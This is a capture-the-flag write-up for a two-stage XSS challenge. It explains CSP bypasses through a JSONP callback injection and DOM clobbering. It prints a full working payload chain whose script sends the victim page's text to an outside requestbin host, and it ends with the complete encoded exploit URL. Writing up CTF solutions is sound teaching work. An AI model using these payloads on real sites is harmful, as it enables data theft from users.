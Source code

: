 # Xmas Shopping Site

For this challenge we are provided with the URL of a website `http://staywoke.hax1.allesctf.net/`. The setup is that of a standard XSS challenge: we can submit URLs for inspection at `http://submit.xss.allesctf.net/`, and have to retrieve the flag from the admin by submitting a malicious URL. Browsing around, we can see that the challenge is divided into two stages: first, we have to gain script execution in stage 1, so we can extract the `token` for stage 2. Then we gain script execution in stage 2 and retrieve the flag.

## Stage 1

Stage 1 uses a CSP of `default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';`, so we cannot inject inline scripts. Testing the functionality of the site, we quickly notice that `/?search=injection` is reflected on the site and insufficiently escaped. We can use that to inject arbitrary HTML into the page, but scripts are blocked by the CSP.

The page loads a script from `/items.php?cb=parseItems` to display the available items. This endpoint is also vulnerable to an injection: we can send arbitrary JS code as a callback and it will be reflected in the returned script. The callback parameter is limited to 250 characters, but we can easily bypass this limit by including additional data in HTML elements inserted by the HTML injection.

Putting both of these bugs together, we can bypass the CSP and execute arbitrary scripts on stage 1.

## Stage 2

Stage 2 uses a CSP of `script-src 'nonce-XXX' 'strict-dynamic'`, so all script elements are annotated with a randomly generated nonce, but existing scripts can add new script elements to the DOM, even if the new elements don't have a nonce.

When changing the background image with a POST request to `/`, parameters `bg=injection`, we can inject arbitrary HTML into the returned page, because no filtering or escaping is done on the new background value. This bug is reachable from stage 1, because its CSP allows POST requests to `stage2.xss.allesctf.net`. The returned content will be blocked by the SOP, but we don't need that content anyways.

The `background.js` script used by the page contains the following line: `$("body").append(backgrounds[$("#bg").val()]);`, which is executed after the page is loaded. If we could control the contents of the `backgrounds` array at that point, we could append a script element to the body, bypassing the CSP.

The `backgrounds` array is defined in an inline script located after our injection, so by ending the injected HTML with an opening `<script>` tag without nonce, we can invalidate the inline script and it will be skipped by the browser (the real opening script tag will be ignored, because it's inside a script tag). Now the `backgrounds` array will not be defined, but we don't have any way of defining it ourselves, since we cannot execute JS code!

But actually, we don't have to define `backgrounds` as an array. If `backgrounds` was not defined by JS code and an element with id `backgrounds` exists, the reference to `backgrounds` will evaluate to that element (this technique is referred to as DOM clobbering). We can simply inject an input element with `id=backgrounds` and `value="<script>alert(1)</script>"`, while setting the background to `value`. This way our script will be injected into the page, and we have arbitrary script execution on stage 2.

## Exploit

Now all that's left to do is putting all the bugs we found in both stages together to construct our exploit.

Let's start with the innermost payload, and work our way outwards: `$("body").append("<img src="+String.fromCharCode(34)+"http://requestbin.net/r/19yiqo91?"+btoa(unescape(encodeURIComponent($("b").text())))+String.fromCharCode(34)+">")`. This will grab the text from all `b` elements and send it to our requestbin.

The next layer is the HTML injection in stage 2: `value"><input type="hidden" id="backgrounds" value='<script>STAGE2_SCRIPT_HERE</script>'><script>`. This suppresses the inline script and clobbers `backgrounds` as described above.

This is the script for stage 1: `fun=function(){window.location=stage2.href};fetch(stage2.href,{headers:{'Content-type':'application/x-www-form-urlencoded'},method:'POST',credentials:'include',body:'bg='+encodeURIComponent(atob(xs.value))}).then(fun,fun)//`. It sends our exploit for stage 2 from the value of the `xs` element with a POST request to stage 2, and then redirects to stage 2.

Now on to the HTML injection in stage 1: `<input type="hidden" id="xs" value="STAGE2_BASE64_HERE"><script src="/items.php?cb=STAGE1_SCRIPT_URICOMPONENT_HERE"></script>`. Here, we include the exploit for stage 2, and load the script for stage 1.

When we replace all placeholders with the appropriate contents we get the final exploit payload:

```
script in stage 2:
$("body").append("<img src="+String.fromCharCode(34)+"http://requestbin.net/r/19yiqo91?"+btoa(unescape(encodeURIComponent($("b").text())))+String.fromCharCode(34)+">")

injection in stage 2:
value"><input type="hidden" id="backgrounds" value='<script>$("body").append("<img src="+String.fromCharCode(34)+"http://requestbin.net/r/19yiqo91?"+btoa(unescape(encodeURIComponent($("b").text())))+String.fromCharCode(34)+">")</script>'><script>

script in stage 1:
fun=function(){window.location=stage2.href};fetch(stage2.href,{headers:{'Content-type':'application/x-www-form-urlencoded'},method:'POST',credentials:'include',body:'bg='+encodeURIComponent(atob(xs.value))}).then(fun,fun)//

injection in stage 1:
<input type="hidden" id="xs" value="dmFsdWUiPjxpbnB1dCB0eXBlPSJoaWRkZW4iIGlkPSJiYWNrZ3JvdW5kcyIgdmFsdWU9JzxzY3JpcHQ+JCgiYm9keSIpLmFwcGVuZCgiPGltZyBzcmM9IitTdHJpbmcuZnJvbUNoYXJDb2RlKDM0KSsiaHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMTl5aXFvOTE/IitidG9hKHVuZXNjYXBlKGVuY29kZVVSSUNvbXBvbmVudCgkKCJiIikudGV4dCgpKSkpK1N0cmluZy5mcm9tQ2hhckNvZGUoMzQpKyI+Iik8L3NjcmlwdD4nPjxzY3JpcHQ+"><script src="/items.php?cb=fun%3Dfunction()%7Bwindow.location%3Dstage2.href%7D%3Bfetch(stage2.href%2C%7Bheaders%3A%7B'Content-type'%3A'application%2Fx-www-form-urlencoded'%7D%2Cmethod%3A'POST'%2Ccredentials%3A'include'%2Cbody%3A'bg%3D'%2BencodeURIComponent(atob(xs.value))%7D).then(fun%2Cfun)%2F%2F"></script>

exploit url:
http://xss.allesctf.net/?search=%3Cinput%20type%3D%22hidden%22%20id%3D%22xs%22%20value%3D%22dmFsdWUiPjxpbnB1dCB0eXBlPSJoaWRkZW4iIGlkPSJiYWNrZ3JvdW5kcyIgdmFsdWU9JzxzY3JpcHQ%2BJCgiYm9keSIpLmFwcGVuZCgiPGltZyBzcmM9IitTdHJpbmcuZnJvbUNoYXJDb2RlKDM0KSsiaHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMTl5aXFvOTE%2FIitidG9hKHVuZXNjYXBlKGVuY29kZVVSSUNvbXBvbmVudCgkKCJiIikudGV4dCgpKSkpK1N0cmluZy5mcm9tQ2hhckNvZGUoMzQpKyI%2BIik8L3NjcmlwdD4nPjxzY3JpcHQ%2B%22%3E%3Cscript%20src%3D%22%2Fitems.php%3Fcb%3Dfun%253Dfunction()%257Bwindow.location%253Dstage2.href%257D%253Bfetch(stage2.href%252C%257Bheaders%253A%257B'Content-type'%253A'application%252Fx-www-form-urlencoded'%257D%252Cmethod%253A'POST'%252Ccredentials%253A'include'%252Cbody%253A'bg%253D'%252BencodeURIComponent(atob(xs.value))%257D).then(fun%252Cfun)%252F%252F%22%3E%3C%2Fscript%3E
```

By submitting this URL to the admin, we obtain the flag: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`
